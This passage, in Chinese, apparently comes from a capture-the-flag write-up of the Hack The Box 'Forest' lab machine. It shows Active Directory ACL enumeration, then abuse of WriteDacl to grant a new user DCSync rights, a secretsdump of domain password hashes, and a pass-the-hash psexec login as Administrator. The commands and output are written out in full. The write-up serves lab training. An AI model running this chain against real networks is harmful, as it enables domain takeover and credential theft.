AuditFlags            : None
AceFlags              : ContainerInherit, Inherited
AceQualifier          : AccessAllowed

```

从上面可以分析得出以下权限是有用的
```
AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty, WriteProperty
ObjectAceType          : ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 40
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-10
AccessMask             : 48
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0


AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : CreateChild, Self, WriteProperty, ExtendedRight, Delete, GenericRead, WriteDacl, WriteOwner
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : ContainerInherit
BinaryLength          : 24
IsInherited           : True
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-32-544
AccessMask            : 983485
AuditFlags            : None
AceFlags              : ContainerInherit, Inherited
AceQualifier          : AccessAllowed
```

从分析结果中得知该组成员拥有`WriteDacl`权限，这意味着我们能够给某个`object`添加`acl`权限。

因此我们只需要一个普通用户账户，然后把它添加到`Exchange Windows Permissions`组，然后利用`WriteDacl`权限来给这个普通用户加上`DCsync`的权限，即可进行提权

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user dcsync "DCSync123" /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" dcsync /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote management Users" dcsync /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $p = ConvertTo-SecureString "DCSync123" -AsPlain -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential('htb\dcsync', $p)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACl -PrincipalIdentity dcsync -Credential $cred -Rights DCSync
```

接着使用`impacket-secretdump`来获取管理员`HASH`

```
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump -dc-ip 10.10.10.161 htb.local/dcsync:DCSync123@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::

```

最后使用`hash`进行登录
```
┌──(kali㉿kali)-[~]
└─$ impacket-psexec -dc-ip 10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file lWtfHDIu.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service nFvi on 10.10.10.161.....
[*] Starting service nFvi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> dir C:\users\Administrator\Desktop\
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\users\Administrator\Desktop

09/23/2019  02:15 PM    <DIR>          .
09/23/2019  02:15 PM    <DIR>          ..
05/27/2022  12:37 PM                34 root.txt

```

### 参考文档


[https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)

[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#writedacl-+-writeowner](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#writedacl-+-writeowner)